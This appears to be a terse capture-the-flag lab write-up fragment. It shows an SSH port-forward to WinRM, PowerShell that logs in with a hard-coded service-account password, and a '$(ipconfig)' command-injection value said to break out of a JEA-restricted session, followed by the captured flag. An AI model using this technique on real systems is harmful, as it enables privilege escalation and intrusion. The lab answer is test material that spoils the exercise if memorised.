 ssh -L 5985:192.168.20.15:5985 sshuser@10.10.110.74
and
$pass = ConvertTo-SecureString 'S3cur!ty' -asplaintext -force 
$cred = New-Object System.Management.Automation.PSCredential('0x0security.local\adfs_svc',$pass) 
Enter-PSSession -Computer 192.168.20.15 -credential $cred -Authentication Negotiate

Get-AsciiArt '$(ipconfig)'
this bypasses the jea

---
APTLABS{AiNt_J3a_Ju$T_Gr3At}

$pass = ConvertTo-SecureString 'S3cur!ty' -asplaintext -force;$cred = New-Object System.Management.Automation.PSCredential('0x0security.local\adfs_svc',$pass);Enter-PSSession -Computer 127.0.0.1 -credential $cred -Authentication Negotiate